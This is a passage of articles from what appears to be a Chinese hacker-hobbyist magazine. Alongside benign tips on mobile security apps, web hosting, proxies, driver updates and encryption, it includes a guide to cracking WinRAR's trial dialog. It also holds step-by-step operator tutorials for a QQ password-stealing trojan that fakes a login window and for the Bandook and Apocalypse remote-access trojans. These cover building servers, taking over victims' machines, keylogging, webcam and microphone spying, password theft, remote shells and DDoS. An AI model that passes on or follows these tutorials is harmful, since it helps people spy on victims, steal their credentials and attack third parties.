## 二、360手机卫士

### 1、软件初次感受

除了“金小蜂安全卫士”这款软件外，360 公司也推出了自己的手机软件，同样首先从 360 的官方网站（www.360.cn）下载最新版的“360手机卫士”，该软件目前支持 Symbian 第三版和第五版的系统，还是通过数据线将其安装到自己的手机系统中并运行。“360手机卫士”的启动画面是经典的 360 盾牌加手机的图案，新版本去除了以前在启动后会询问是否开机自启动的提示，而是采用了默认自动随机启动的方式。不过“360手机卫士”并没有设置向导功能，用户只可以根据需要进行一项项的操作，如图9。


### 2、拦截操作设置

我想很多用户都和我一样经常会收到陌生短信和电话的骚扰，现在通过“360手机卫士”就可以对这些内容进行拦截，软件采用的是黑白名单的方式进行拦截操作的。点击软件操作界面中的“黑白名单”，进入操作界面后选择编辑白名单或者黑名单。比如我们选择设置黑名单，进入后按下手机的左功能键选择添加，添加的方式包括从名片夹、从通话记录、从收信箱或者手动输入等，如图10。另外，拦截的类型也包括来电、短信以及来电+短信等三种方式。

接下来返回到“360手机卫士”的主界面，点击“拦截模式”后进入到相关的设置。拦截模式包括了普通模式、拦截黑名单、接受白名单等多种方式，通常情况下我们选择“只拦截黑名单”这种方式就可以了。设置完成后返回到主界面中，以后点击“拦截记录”就可以查看拦截的信息了。如果用户并不是不愿意接听，而是在特殊情况下不方便接听，可以设置不同的拒绝模式来操作，点击软件主界面中的“设置”，在弹出窗口的“来电拒绝模式”中选择即可。模式包括了返回忙音、返回空号、返回已关机等，如图11。

### 3、隐私空间设置

如果用户的手机不小心被窃取了，那么存储卡中的信息很容易就被泄露，所以最好的方法就是对个人信息进行加密。点击主界面中的“隐私空间”，第一次启用该功能会要求用户设置密码。设置完成后通过手机左功能键来设置进行隐私保护的项目，比如我们不想让其他人看到张三发给你的短信，就在“隐私收信箱”里添加张三的电话号码，如图12。当然你也可以设置来电、去电和发信箱，这样其他人就无法掌握你的通讯记录了。


图10


图11


图12

### 4、系统清除操作

手机系统使用久了也会出现大量的垃圾，通过“360手机卫士”可以对其进行清除操作。点击主界面中的“系统清理”按钮，软件的这个功能操作分为了两个步骤，如图13。首先通过左功能键进行确定，这时软件会对正在运行的程序进行判断，并且要求用户关闭其中不需要的程序。如果用户有需要关闭的程序软件，可以点击手机键盘中的确认键进行选择，接着再点击左功能键即可关闭指定的程序，如图14。

在关闭了不需要的软件程序后，第二步就是对手机系统的垃圾进行清除。一般的手机垃圾包括安装包残留文件、缓存文件和系统临时文件等。同样通过手机键盘中的确认键选择要进行清除的信息内容，接着点击手机键盘中的左功能键就可以将各种垃圾进行有效的清除操作，如图15。同样，上面的这些操作就可以释放被这些文件信息所占用的内存了。


图13


图14


图15

## 三、总结

通过我们上面的介绍大家可以看到，这两款手机安全软件的侧重点还是不同的，比如“金小蜂安全卫士”是侧重对恶意扣费软件进行分析和查杀，而“360手机卫士”则侧重于对个人隐私的相关保护设置。另外，最近一段时间有个名为“手机酷毙”的病毒，而通过这两款工具都可以方便地对其进行删除。除此之外，这两款软件还有其它的一些功能，用户安装后就慢慢地去体会吧。

（文章中所用到的金小蜂安全卫士、“360手机卫士”已收录到光盘中）

# 在免费的GAE平台上搭建自己的网站

在上期的杂志中，我为大家介绍了Google提供的基于Google App Engine（Google应用程序引擎）云计算平台的HTTP代理软件GAppProxy，不知道大家有没有去了解过关于Google App Engine（以下简称GAE）的一些知识。其实GAppProxy这个代理软件只是运行于GAE云计算平台上的众多应用程序之一。事实上，我们还可以在GAE上面建立更多不同的应用程序，比如网站程序也是其中的一种。其实GAE就相当于一个稳定的免费网站空间，支持Python和Java这两种开发语言，使用Google专有的数据库。它为每个应用程序提供了1G的免费数据库和空间，超过1G才需要付费；还提供了可以支撑每月500万次访问请求的免费带宽，超过500万次才需要付费。这样的免费资源对于一般的个人网站来说是完全足够用的。并且GAE还支持给每个应用程序绑定域名，这样就和虚拟主机没什么两样了，更重要的是它可是免费的哦。本文我就带领各位菜鸟来搭建一个运行于GAE云计算平台上的免费个人网站。

在上期介绍的GAppProxy文章中，我已经介绍了如何注册Google App Engine账户以及如何在GAE上建立一个应用程序，因此这里就不再赘述。唯一需要注意的是，每一个GAE账户最多可以创建10个应用程序，因此大家有必要“省着点”用。网上已经有很多牛人开发好的基于GAE的网站程序，因此即使你对Java或Python一窍不通也不用担心，仍然可以很轻松地建立一个属于你自己的网站。首先登录到你的Google App Engine后台，并建立一个应用程序，我建立的应用程序名为“hackerfiles2010”，然后需要下载Google App Engine SDK（即Google应用程序引擎开发套件），下载地址是：http://code.google.com/intl/zh-CN/appengine/downloads.html 。Google提供了Python和Java两种开发语言的SDK，这里我们选择Python的Windows版本，如图1所示。

下载并安装好GAE SDK后，桌面就会出现一个蓝色小飞机的图标，如图2所示。这个开发工具的运行需要Python的支持，因此如果你的电脑中没有安装Python的话，在运行Google App Engine Launcher的时候就会弹出如图3所示的对话框。

因此我们还需要在电脑上安装Python。由于Python的官方下载网站 http://python.org/download/ 已经被屏蔽了，因此我在光盘中为大家提供了Python的安装程序。最后我们还需要下载一套运行于GAE平台的网站程序，这里我选择的是GDcms（gae-django-cms的缩写），程序的下载地址是：http://code.google.com/p/gae-django-cms/ 。

下载GDcms并解压到D盘，打开解压出来的文件夹gae-django-cms，在这里我们有两个文件需要修改。首先找到app.yaml这个文件，并用写字板程序打开它，修改第一行的“application:”为你已经建立的应用程序名称，如图4所示。

第二个需要修改的文件是settings.py，仍然使用写字板打开，首先把“DEFAULT_FROM_EMAIL =”这行的内容修改为你注册GAE时使用的Gmail邮箱，如图5所示。然后找到“USE_I18N = False #False(en)/True(cn)”这行，把“USE_I18N = False”改为“USE_I18N = True”，这样就把程序使用的语言修改成了中文。保存并退出settings.py，接下来就可以把GDcms上传到GAE上去了。

仍然是在gae-django-cms这个文件夹下，找到run.bat这个文件并运行它，程序就会开始上传了（如果你事先没有安装GAE SDK和Python的话，是上传不了的）。如果你还没有登录GAE账户，或者登录已经过期，会要求你输入账号密码。上传完成后，就可以访问你的应用程序了。我们刚才建立的应用程序名称是hackerfiles2010，因此它的地址就应该是：http://hackerfiles2010.appspot.com/ ，如图6所示。

点击页面底部的“登录”链接，就可以使用GDcms的默认密码admin登录管理界面，如图7所示。接下来的添加文章、广告、设置分类等管理工作，就留给大家自己去体验了。（文章中所用到的python-2.6.4已收录到光盘中）

# 通过139邮箱免费给对方发短信

当大家看到这个文章题目时，是不是感觉到有些不可思议，邮箱怎么也可以发送短信呢？我们来看一个情景假设，相信你就会明白了：你的朋友可以随时上网，但他的手机坏了不能使用了（手机使用的为非移动的手机卡）；你不经常上网，但手机却不离身（你使用的是移动的手机卡），那你的朋友要怎样才能随时联系到你呢？这时候他就可以通过给你的139邮箱发送邮件的方法，来随时随地和你保持联系。

139邮箱是中国移动所提供的电子邮件服务，为终身免费产品，但它只支持中国移动的手机号码进行注册，手机号也就是邮箱账号，因此很容易记。139邮箱提供了邮件到达通知功能，可以让我们在第一时间内知道新邮件的到达，短信通知可以显示邮件的内容，把你想说的话写到邮件标题或正文里，就可以达到免费给对方发送短信的效果了。

如果要给你的139邮箱发送邮件，那么首先我们就得开通139邮箱。如果还没有开通的话，可以打开 http://mail.139.com/ ，点击“免费注册”来进行开通，如图1。

在打开的注册免费版邮箱的页面中输入你的手机号码（必须是中国移动的号码），点击“获取短信验证码”后输入你手机收到的短信验证码，就可以完成注册了，如图2。

当然我们也可以编辑短信“KTYX”发送到10086，通过手机开通139邮箱免费版。比如你的手机号是13512345678，那么你的139邮箱地址就是13512345678@139.com。注册成功后我们就可以使用了，并可在“设置”→“邮件到达通知”中配置短信通知方式、接收时间等。

在“手机接收方式”中可选择长短信、普通短信、免费短信、彩信等方式，默认方式可保持不变；接收时间可调整为全天。保存后即可通过邮件主题和正文向手机推送内容，实现更方便的即时沟通。

# 利用IPv6进行网络加速

前段时间谷歌将服务器迁移后，很多用户开始关注如何继续稳定访问相关服务。这里介绍一种通过IPv6继续使用相关服务的方法。

## 一、设置IPv6网络服务

首先在Windows 7中打开“控制面板”→“网络和共享中心”→“更改适配器设置”，在本地连接属性中勾选“Internet 协议版本6（TCP/IPv6）”即可。

对于Windows XP，可通过“命令提示符”输入“ipv6 install”安装IPv6协议；安装后在网络连接属性中选择“Microsoft TCP/IP 版本 6”。

## 二、修改系统的Hosts文件

Hosts文件用于维护IP地址与域名映射关系。系统进行DNS请求前会先检查Hosts，因此可通过修改Hosts优先解析指定IPv6地址。找到Hosts文件后，用记事本编辑并保存相应解析记录即可。

```text
2001:4860:8004::62 google.com
2001:4860:8004::62 photos.google.com
2001:4860:8004::62 picasa.google.com
2001:4860:8004::62 earth.google.com
```

修改完毕后再次打开IE浏览器登录谷歌地球，此时就会发现熟悉的网站界面又回到了我们的眼前，如图4。

打开IE浏览器，选择“工具”下的“Internet选项”，在弹出的窗口中选择“连接”，然后选择下部的“局域网（LAN）设置”，在弹出的窗口中选择“为LAN使用代理服务器”，分别在“地址”和“端口”中输入“http://edu6.zzzcn.info/proxy.pac”和2012即可，如图5。不过此代理服务器只能在IPv6环境下使用，主要就是针对使用教育网的一些网络用户，因为现在的大学基本上都启用了IPv6这种全新的网络。

## 三、利用IPv6进行加速

其实除了可以通过IPv6继续使用谷歌以外，IPv6最大的一个作用就是进行网络加速。在大学待过的朋友一定都知道，通过校园网访问互联网的速度实在是慢得无法形容，而如果是通过IPv6代理来进行访问的话，那么速度立刻就会有非常明显的提升了。

# 全新给力代理软件——张生翻墙

> 天涯文章

我想《西游记》的故事很多人都知道，话说书生张生在普救寺偶遇佳人崔莺莺，后来因为急于相见莺莺，张生曾于月下翻墙入园，两人最后终成眷属。我们在Internet上访问网站的时候，也经常会需要用到代理服务器才能访问，但是代理服务器的操作比较复杂，今天我就为大家推荐一款全新的软件——张生翻墙。

首先我们从网上搜索到最新版的“张生翻墙”，该软件在下载完成后需要进行安装才可以使用。安装完成后双击桌面上的图标，在打开的操作界面中直接点击“连接”按钮，如图1。当软件在任务栏的图标出现了一个绿色的小勾，就表示代理服务器现在已经连接成功了。接下来我们点击“IE翻墙浏览”，软件就会自动打开系统的IE浏览器，此时就可以通过代理服务器进行相关网页的浏览了。这里我就打开了一个IP地址查询网站，发现自己的IP地址已经变成“美国”的了，如图2。如果不需要使用代理服务器的连接，只需要点击窗口中的“IE本地浏览”按钮，就可以使用本地的网络来进行网站内容的浏览了。

虽然软件默认只对IE浏览器进行了关联，但是我们只需要在其他的浏览器中进行简单的设置，就可以让它们也能够使用这款代理软件了。比如我们打开Opera浏览器，选择“工具”菜单中的“首选项”，在弹出的窗口中选择“高级”标签，然后点击其中的“网络”，如图3，再点击右侧窗口中的“代理服务器”。接下来在弹出的窗口中选择“HTTP”和“HTTPS”等选项，再在输入框中输入IP地址127.0.0.1，以及代理端口2010就可以了，如图4。设置完成后，点击“确定”按钮退出，这样Opera浏览器就可以通过“张生翻墙”来进行上网浏览了。不过我发现这个代理软件的速度一般，不过存在免费的份上就不多计较了！

（文中所用到的张生翻墙已收录到光盘中）

# Vista、Windows 7让驱动更新更轻松

最近在使用迅雷下载大文件时，系统总是莫名其妙地重启。通过使用WinDbg分析系统崩溃时的dmp文件，发现是网卡的驱动文件导致的。我到网上查了查，发现有不少人遇到了和我同样的问题：系统重启是因为网卡的驱动和迅雷发生了冲突，更新网卡驱动后就可以解决问题了。

我不想使用驱动精灵之类的软件来更新驱动程序了，就想找出我的网卡的具体型号，再去官方网站下载最新的驱动程序来进行更新。打开系统的设备管理器，一时间竟然没有看出我的网卡的具体型号，不过在网卡上点右键，却无意中看到了“更新驱动程序软件”的选项，如图1。选择后出现了如图2所示的界面，提供了两种搜索驱动程序的方法：

- 自动搜索更新的驱动程序软件：会连接网络并自动搜索最新的驱动程序。
- 浏览计算机以查找驱动程序软件：会在你的计算机上搜索更新的驱动程序（也可以从驱动程序的安装光盘中来安装）。

其中“自动搜索更新的驱动程序软件”是默认的选择，因为我电脑中并没有更新的驱动程序，于是就选择了第一种方法。接下来就会出现“正在联机搜索软件”的进度条了，这时Windows会根据你硬件的型号自动到网上搜索对应的驱动程序，如图3。

找到更新的驱动程序后就会自动下载并安装，如图4、图5。更新完驱动程序后，系统频繁重启的问题就顺利地解决了。只需要点几下鼠标，就完成了更新驱动程序的操作，真是方便啊！

我使用的操作系统是Vista，经测试Windows 7系统也有这个功能；但是XP系统和Windows 2003系统却没有这个功能。虽然也有“更新驱动程序”的选项，但却只能搜索本机上的驱动程序来进行更新，并不能自动到网上来寻找需要的驱动程序。

在Vista、Windows 7下更新驱动程序既不需要到官方网站下载，也不需要安装第三方软件，只要你的电脑能上网，使用系统自带的“更新驱动程序软件”功能就可以轻松完成了。不得不承认，新版本Windows操作系统的有些功能是越来越方便、更加人性化了。

# 菜菜的WinRAR破解改造之路

踏雪

这几天我下载了一些教程，都是RAR格式的。每次打开WinRAR时都会弹出一个对话框，提示我说RAR已经过期了，如图1，搞得我很是不爽。于是就萌发了破解的念头，于是也便有了本文。

要想不让WinRAR弹出那个对话框的话，有两种解决的方法：一是反汇编它，二是把这个对话框删掉（如果没有了那个对话框自然也就看不到了，不过可能会出现错误）。我这个人比较懒，就选择后一种方法吧。

下面就请出今天的主角——PE Explorer。在WinRAR的安装目录（一般为C:\Program Files\WinRAR）下找到它的主程序，并把主程序拖到PE Explorer中就可以打开了，如图2。

看到这个界面，可能有小菜忍不住要说了：“这么复杂啊，到底怎么使用呢？”其实这些东西我们都不用管，直接点击“视图”→“资源”（或者按Ctrl+R），出来的这些才是我们需要的东西。展开“对话框”，来寻找那个烦人的对话框。在按了N+1次向下键后终于找到了对话框，点右键选择“删除资源”，如图3。现在就完成破解工作了，再次打开WinRAR时就不会弹出那个对话框了（要记得先保存修改后的程序哦）。

这样就结束了吗？当然不，我们要让它变得更个性一点。打开刚才破解好的WinRAR程序，嗯，确实不会弹出那个对话框了，不过在WinRAR的标题栏里还有“40天评估版本”这几个字，在“关于”里也还是“40天评估版本”。老办法，还是展开“对话框”寻找关于对话框。找到了，删除掉吗？有小菜高呼道：NO，你要是删除了，人家还怎么看啊，我们这回要改掉它。点击右键，选择“编译资源”，在弹出的窗口中找到“40天评估版本”这几个字，点一下它，在上面的编辑框就出来了那几个字，如图4。我们现在只需要把那几个字改掉就可以了。不仅如此，实际上我们还可以做很多事呢，比如你觉得它的按钮布局不合理，只需要用鼠标点中任意一个按钮，并把它移到你喜欢的位置去就可以了。大家来看看我的设计，如图5。

那个标题栏的几个字怎么去掉？我找了好久都没有找到。那个窗口。——小菜满脸郁闷地说道。虽然找不到那个窗口了，大家想想如果我们注册了的话，那几个字还会在吗？肯定是不在了。所以我们应该到“字符串”里去寻找那几个字。好多哦，难道PE Explorer没有查找功能吗？小菜又郁闷了。这正是我要说的问题，不是PE Explorer中没有，而是貌似没有用，所以只能靠自己了。也是点击右键，选择“修改资源”（也可以按Shift+Ctrl+E），怎么做就不再说了吧，各位牛人就发挥自己的才能，做出属于自己的个性WinRAR吧！

（文章中所用到的PE Explorer已收录到光盘中）

# 我的签名不怕“透光”——为加密包巧配“绝密钥匙”

花的神明

对于加密文件来说，最担心的事情就是密码泄露，这会导致加密文件毫无秘密可言。如果我告诉你，即使让别人知道了密码，也无需担心加密文件的安全，那么你一定会认为这是天方夜谭。但实际上，使用Axantum AxCrypt这款独特的加密软件，就可以将上述想法变成现实。Axantum AxCrypt使用独特的钥匙文件配合密码的方式，可以让加密文件坚不可摧，没有我们精心保存的钥匙文件，就是知道了密码也无法打开加密文件。

首先我们要安装Axantum AxCrypt，安装过程非常简单，安装完成后就可以使用了。在“开始→程序→附件→资源管理器”中选择目标文件或者文件夹，点击右键选择“axCrypt → Make Key-File”，在弹出的窗口中选择密钥文件的名称和存储路径，然后就可以得到密钥文件了（该文件实际上是个文本文档，其中包含了随机数，不同的密钥文件其内容完全不同）。接下来在目标文件上点击右键，选择“axCrypt → Encrypt”，如图1，在弹出的加密窗口中输入密码，如图2，并点击Key-File栏后面的浏览按钮，选择刚才生成的密钥文件，最后点击OK按钮，Axantum AxCrypt就可以使用密码和密钥文件同时加密目标文件了。加密后的文件其后缀名为axx，而名称和原始文件相同，同时也会保存在同一路径下。

# 傻瓜黑客

如果在刚才的右键菜单中选择“axCrypt”→“Encrypt a copy”，就表示创建加密文件的同时还保留原始文件；选择“axCrypt”→“Encrypt copy to .EXE”，就表示创建可执行的加密文件，并且保留原始文件。现在我们只需要保存好密钥文件，密码即使被别人知道了，对方也无法打开加密的文件。我们如何执行解密操作呢？

还是以第一种加密方式为例来进行说明，双击目标加密文件，在弹出的解密窗口中的“Enter passphrase”栏中输入密码，如图3，在“Key-File”栏中选择对应的密钥文件（两者缺一不可），然后点击“OK”按钮，就可以执行解密操作，得到原始的文件了。

（文章中所用到的 AxCrypt 已收录到光盘中）

## 另类绝招：卡巴斯基客户端自动安装程序制作奇妙法

周玲生

春节过后，轮岗到了技术部门，最初上班时短短一周之内居然重装了六台主机（因为担心网上流传的 GHOST 系统可能涉及到版权或者留有后门什么的，一般都是先格式化分区再安装的操作系统），虽说都是按照“Next”一步步地按部就班，可也累得实在是够呛，上班时间无法完成任务，周末也就开始无休止地加班了，整个人都差不多累瘫了。在痛定思痛之后，觉得有首歌唱得很有道理：再也不能这样过，再也不能这样活。

于是，我就弄了一张操作系统的自动安装光盘。而对于杀毒软件卡巴斯基的客户端，我粗略地统计了一下，即使是按最简单的先安装网络代理，再安装卡巴斯基客户端的方法，不计算键盘输入的字符数，也必须点击鼠标二十多次才行，因此最好也能制作出卡巴斯基客户端的自动安装程序，免除举手之劳。皇天不负有心人，我参考了一些资料，并经过一番摸索，终于找出了制作卡巴斯基客户端自动安装程序的妙法，具体步骤如下：

- 1. 在卡巴斯基更新服务器上点击“开始”菜单，依次选择“程序”→“卡巴斯基管理工具”→“卡巴斯基管理工具”，在打开的“Kaspersky Administration Kit”窗口中右击“管理服务器 localhost”下的“远程安装”，再依次选择“新建”→“安装包”，点击“下一步”输入安装包的名称，比如“KAV6”，如图1。
- 2. 继续点击“下一步”，在“新安装包向导”窗口中点击“浏览”按钮，选择卡巴斯基反病毒6.0 Windows 工作站安装文件夹中的 kav6.kpd 文件，如图2，然后选择程序授权许可 key，制作程序就会自动将安装包上传到卡巴斯基管理服务器了。
- 3. 在“Kaspersky Administration Kit”的右侧窗口中右击“KAV6”，选择“属性”，在“KAV6 属性”对话框的“属性”标签页中勾选“扫描我的电脑”“扫描启动对象”“扫描关键区域”“更新”，然后点击“确定”，如图3。
- 4. 返回到“管理工具”的右侧窗口中，右键点击“Kaspersky Network Agent ver. 6.0.1405 包”，选择“属性”，打开对话框，切换到“设置”标签页，填入卡巴斯基更新服务器地址，最后点击“确定”即可，如图4。
- 5. 复制卡巴斯基工作站安装文件夹里的所有文件（一般路径为“C:\Program Files\Kaspersky Lab\Kaspersky Administration Kit\Share\Packages\KAVWKS6 6.0.3.837”）到网络代理文件夹（一般路径为“C:\Program Files\Kaspersky Lab\Kaspersky Administration Kit\Share\Packages\NetAgent 6.0.1405”）中，并重命名为 Workstation，如图5。
- 6. 在网络代理文件夹中新建一个名为 Setup.bat 的批处理文件，其具体内容如图6所示。

```bat
@echo off
cd\
cd %ProgramFiles%
setup.exe /S/qv
cd Workstation
setup.exe /s
@echo "请重新启动计算机"
```

- 7. 安装 WinRAR，再选中网络代理文件夹中的所有文件，点击右键并选择“添加到压缩文件”，在弹出的“压缩文件名和参数”对话框中，切换到“常规”标签页，勾选“创建自解压格式压缩文件”，再到“压缩文件名”栏中输入一个任意的名称，比如 AutoSetup_Kav.exe，如图7；再切换到“高级”标签页，点击“自解压选项”，在“高级自解压选项”对话框中的“常规”标签页下的“解压路径”中输入“%ProgramFiles%”，在“解压后运行”栏中输入“setup.bat”，如图8；再切换到“模式”标签页，在“安静模式”中点选“全部隐藏”，如图9；最后切换到“更新”标签页，在“覆盖方式”中点选“覆盖所有文件”，如图10，最后点击“确定”按钮就可以生成自动安装了。

以后，在客户端电脑上只需要双击运行 AutoSetup_Kav.exe，在系统 CMD 命令窗口关闭后再重启一下电脑即可，如图11。不过要记得修改更新设置（具体步骤为：右键点击系统托盘中的卡巴斯基图标，选择“设置”，在左边栏选择“更新”，再点击“配置”，打开“设置：更新”窗口，切换到“更新源”，勾选“卡巴斯基管理控制台”，最后点击“确定”即可，如图12）。

### 仿登录窗口的 QQ 木马

天涯衰草

使用过 QQ 或者 TM 的用户都知道，QQ 程序有时会莫名其妙地崩溃出错。当这种情况见得多了，大家也就习以为常了。可是就当我们对这种情况习以为常的时候，黑客们却发现了其中可以被大肆利用的地方，于是一款专门用于 QQ 盗号的木马“QQ 提示大盗”就这么悄悄地出现在了网络之中！

## 一、配置服务端

其实这款盗号木马并没有专门的名称，之所以被称为“QQ 提示大盗”，完全是网友根据它的原理而起的一个名称。我们从网上下载“QQ 提示大盗”的压缩包，解压后可以看到里面有多个文件。关于这个盗号木马的配置，事实上和其它的盗号木马非常相似。

首先把 QQ.asp 文件通过 FTP 软件上传到自己的网络空间中从而得到一个地址，接下来运行“QQ 提示大盗”的配置程序 QQ.exe。根据弹出的窗口我们可以看到木马将自身伪装成了 QQ 登录窗口的样子。我们只需要在“密码”输入框里面输入 QQ.asp 文件的链接地址就可以了（也就是刚才上传到网络空间去的那个文件地址），如图1。目前这个木马还不支持通过邮箱来收取信息，输入完成后点击“生成”按钮，就可以创建一个名为 1.exe 的服务端程序，这个服务端程序所使用的图标就是 QQ 崩溃文件的图标。

### 二、测试服务端

现在我们就在虚拟机里来测试这个木马的服务端程序。当双击运行这个服务端程序后，它只会默认加载到系统内存里面，除此之外并不会有其它行为动作，这样就可以方便地突破主动防御了。服务端程序会对系统中的进程进行扫描，一旦发现有正在运行的 QQ 程序进程就会马上结束它；而如果没有检测到 QQ 进程的话，服务端程序就会在系统后台进行监视，一旦检测到系统中存在 QQ 进程就会结束它。

通常情况下，当我们发现自己的 QQ 程序被莫名其妙地关闭后，都会选择重新运行 QQ 程序。这时“QQ 提示大盗”就会再次关闭 QQ 程序，并且同时弹出一个“错误报告”的窗口，其实这个窗口就是服务端程序模拟出来的，如图2。当我们按照惯例点击提示窗口中的“确定”后，马上就会有一个 QQ 登录窗口重新出现在我们面前，如图3。

当我们在窗口中输入账号和密码并且点击“登录”按钮后，很快就会弹出一个“登录失败，请重新登录”的提示窗口，如图4，然后服务端程序就会自动进行删除，这样在系统中就找不到任何木马的痕迹了。而服务端程序正是利用了这个时间差，它会快速地将窃取到的账号和密码信息发送到指定的地址。当网站地址收到信息后就会在空间中创建一个文本文档，用于记录窃取的账号、密码、IP 地址、时间等详细信息。

## 三、小结

以前不管是为了窃取 QQ 密码还是网游密码，基本上都是通过截取键盘操作来获取的。但是目前 QQ 和网游的保护措施也越来越强，以前的那些方法基本上都不大能用了，所以目前很多新木马都是通过模拟程序的登录窗口来窃取用户输入的账号和密码信息的。这样就摆脱了密保软件的保护，而且这类木马编写起来也非常方便，提醒大家在输入密码的时候一定要多注意啊！

（文章中涉及到的 QQ 提示大盗已经收录在了“诡盘”中）

## 国外远控木马 Bandook

国内常用的一些远程控制软件，诸如灰鸽子、黑洞、PcShare 等，在杀毒软件的眼中早已经是“过街的老鼠，人人喊打”了，这也使得它们在免杀的制作上也是越来越难……终于找到了一款看上去非常强大的远程控制木马。

以下就是这位来自国外的木马 bandook 的一段自我介绍：我的父亲是 C++，而我的母亲是 Delphi……这也就是我名字的由来。

介绍得还挺有意思的吧，不过相信许多小菜在初次见到这款国外的远控程序时，心里难免会产生畏惧和排斥……这些英文单词都是固定不变的，所以只要我们认清和牢记它们所对应的中文意思就可以熟练地操作了。

我们还是先来配置一个服务端程序吧，点击最上方的第二个选项“Create”，就会弹出服务端配置窗口了（如图2）……下面的“Installation Location”表示木马文件安装保存目录，可以是系统根目录，也可以是其他目录（如图3）。

右边的“File Name”就是木马安装保存的文件名……“Port”是木马上线端口，“SERVER ID”是用户标识，“IM SPY DELAY”是即时信息间谍延迟时间。

“HKCU Startup Key”和“ActiveX Startup Key”都是木马的启动键设置；“Rootkit DLL URL”可填写预先上传到空间中的 DLL 木马文件……全部设置完毕后，点击“Create”按钮可生成服务端程序。

现在返回到 bandook 的客户端界面上来，左上方的“Port List”是端口列表……客户端程序打开后不会自动监听端口，必须手动配置上线端口，可在“Port List”窗口中右键选择 Add 来添加一个上线端口，如图4。接下来我们还需要激活这个上线端口，点击最上方“Socket”选项下的“active”就可以了，我们从右下方的 socket status（socket 的状态）也能判断出该端口是否已经被激活。现在，就可以耐心地等待肉鸡来上线了，这不，立马来了一个，如图5。

我们选中上线的肉鸡点击右键后就会惊异地发现，在外表如此简单的 bandook 身上居然会有如此多的功能，如图6。下面就由我给小菜们来慢慢地解说一番吧！对了，有一点大家必须注意，这个国外木马的某些功能需要激活，我们可以留意下左下方的一些信息，如图7。凡是显示 NO 的，其对应的功能都是没有被激活的，但是这个问题好解决，我们可以直接在肉鸡上点右键选择“Plugins”，然后选择所需要激活的选项，比如“Utilities Plugin”，最后还需要选择“Direct Install”就行了，千万不要选错哟，如图8。

“Registry Manage”是注册表控制，可以修改对方电脑上的注册表信息，这个和国内常用的远控木马基本类似，如图10。

“Windows Manager”也就是当前窗口控制，可以罗列出当前用户所打开的窗口并进行一些相关操作，包括隐藏（SW_HIDE）、最大化（MAXIMIZE）和最小化（MINIMIZE）、窗口恢复（SW_RESTORE）或关闭（WM_CLOSE）等，如图11。

“File Manage”为文件控制，通过它我们可以任意浏览、下载、删除对方电脑上的所有文件。不过在浏览对方电脑上的文件时要先在空白区点右键选择“get drivers”获取对方电脑上的盘符，然后才能进行下一步操作，如图9。当我们想上传程序到远程电脑上时，还可以通过 FTP 途径上传，但前提是自己必须要拥有一个 FTP 空间。“Rar File”是打包对方电脑上的文件以方便我们下载，“ShellExecute”是执行文件等等。

“Processes Manager”就是进程管理，可以列出目标电脑上正在运行的进程，我们选择想要结束的进程名，然后点击右键，选择“Terminate Process”就可以结束目标程序的进程了，如图12。

“Screen Manager”就等同于国内木马的屏幕监控功能。不过在使用前我们需要为目标电脑安装这个功能插件，在目标电脑上点右键，选择“Plugins”→“Screen/Cam”→“Direct Install”，如图13。我们也可以查看左下角状态栏中的 Media 选项是否由 NO 变成 YES，如果是 YES 就表示安装成功了。现在就可以查看对方的电脑屏幕了，我们在弹出的窗口中点击 Take 按钮就开始截取目标电脑的屏幕内容了。不过这款木马的屏幕监控确有点儿不一样，它是每点击一次 Take 按钮才会显示一次目标电脑的屏幕界面的，如图14。

“Cam Manager”就是摄像头监控，如果对方的电脑中安装了摄像头的话，那么就可以通过对方电脑的摄像头来进行监控了，其操作和“Screen Manager”是一样的。

“Mic Manager”为语音监控，如果对方正在使用麦克风讲话，那么我们就可以窃听到对方的谈话内容并保存为音频文件在本地了，如图15。

“Remote Shell”也就是得到远程电脑的一个 shell，这样就可以输入系统命令在对方电脑执行了。但是这个功能也是需要为对方电脑安装 utilities 程序插件的，方法和上面的一样，选择“Plugins”→“Utilities Plugin”→“Direct Install”。成功安装后我们返回到“Remote Shell”的窗口，在空白区域中点右键选择 enable，现在就可以执行系统命令了，如图16。

“IMsSPY”可以监听当前用户正在使用的即时聊天程序的聊天信息，比如 Yahoo、MSN 等，主要针对国外流行的一些即时聊天程序。

“PWS”这个功能我个人是比较喜欢的，因为它既简单又实用，它可以截获当前用户电脑中的一些程序密码和信息，比如一些 IMs（即时聊天软件）、FireFox、Email 等等，并把内容显示在当前窗口中，如图17。记得这个功能也需要激活，激活的方法和上面介绍的一样！

“Keylogger”，顾名思义就是键盘记录，相信大家都不会陌生吧。它分为两种记录方法，第一种是 online（在线记录），第二种是 offline（离线记录）。在线记录也就是即时记录即时显示，而离线记录就是把用户任何时候的操作记录下来并一起反馈给攻击者。这个功能和国内远控木马的键盘记录相比其实也没多大的区别！

“Socks proxy”和“Http proxy”就是分别开启 socks 和 http 的代理；这个和灰鸽子等远控的功能都是一样的，选择 start，在弹出的窗……

“Cam Manager”就是摄像头监控，如果对方的电脑中安……

# 骇马记

我们可以用它轻松地开启目标电脑的 VNC，然后通过附带的 VNC 客户端进行连接和控制。输入连接端口即可开启对方的 VNC 服务。“Clipboard Manager”用于剪贴板信息截获；“Services Manager”用于服务管理，可获取服务列表、启动/停止服务及卸载服务。

“Flooding”主要分为 Mail Bomb（邮件轰炸）和 DDOS（拒绝服务攻击）。Mail Bomb 中填写被攻击邮箱与发送数量后点击 Start；DDOS async flood 中填写目标 IP 或域名并启动即可。

对于“VNC”功能，在远控程序中较新颖。还包含“Ftp server”可建立 FTP 服务；“Cache Reader”可读取目标机器缓存中的信息。

“Shutdown menu”可执行 log off、reboot、power off 等操作。“Screen Record”可自动记录目标屏幕并压缩保存，支持设置 Recording time 与 Archives Password，之后可下载并在 local videos dir 中查看。

在“Others”中的 remove 功能可卸载目标电脑中的服务端程序；卸载后相当于该肉鸡失效。后续还有“Visit site”等功能说明，是网页访问，可以让对方自动打开我们预设的网页，可以作为增加网站人气和流量的功能。

文章写到这儿，关于 bandook 的常用功能就为大家介绍完了，相信小菜们也都能够熟练地使用了，希望 bandook 这款国外的远控程序能够给大家带来欢乐！

> （文章中涉及到的 Bandook，已经收录在了光盘中）

## 国外木马 Apocalypse：拿肉鸡过春节

天涯衰草

大家接触到的木马有很多，而且在杂志上每期也都会介绍，至于国内经典的灰鸽子、上兴什么的就不提了，今天我就给大家推荐一款国外的木马，它就是 Apocalypse，其最新版本为 1.4.4，功能非常强大，绝对是一款好马！由于这是一款国外的木马程序，所以软件的操作界面是英文，虽然曾经有网友汉化过一个版本，但是我在测试的时候却发现无法上线。废话就不多说了，首先从网上下载 Apocalypse 的最新版本，解压后双击运行文件夹里的客户端程序就可以了。

## 一、配置服务端程序

